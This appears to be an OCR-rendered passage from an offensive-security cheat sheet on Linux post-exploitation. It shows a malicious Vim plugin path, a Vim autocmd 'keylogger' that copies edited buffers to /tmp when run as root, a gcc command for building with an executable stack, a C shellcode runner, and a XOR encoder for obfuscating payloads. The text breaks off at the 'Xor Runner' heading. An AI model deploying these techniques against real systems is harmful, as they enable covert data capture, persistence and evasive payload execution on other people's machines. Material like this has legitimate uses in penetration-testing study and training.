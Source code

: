 Vim will automatically execute a plugin file in the proper location

```
~/.vim/plugin/pwn.vim
```

#### Vim Keylogger

```
:if $USER == "root"
:autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt
:endif
```

### Nix Shellcode Runners

#### Shellcode Compilation

Use execstack

```
gcc -o hack.out hack.c -z execstack
```

#### Basic Shellcode Runner

[Full Source](../src/c/ScRunner.c)

```
int main (int argc, char **argv)
{
    unsigned char buf[] = 
    "\x48\[...]\xe6";
    // run our shellcode
    int (*ret)() = (int(*)())buf;
    ret();
}
```

#### Xor Encrypted Shellcode Runner

##### Xor Encryptor

[Full Source](../src/c/ScXorEncoder.c)

```
char xor_key = 'J';
int payload_length = (int) sizeof(buf);

for (int i=0; i<payload_length; i++)
{
    printf("\\x%02X",buf[i]^xor_key);
}
```

##### Xor Runner
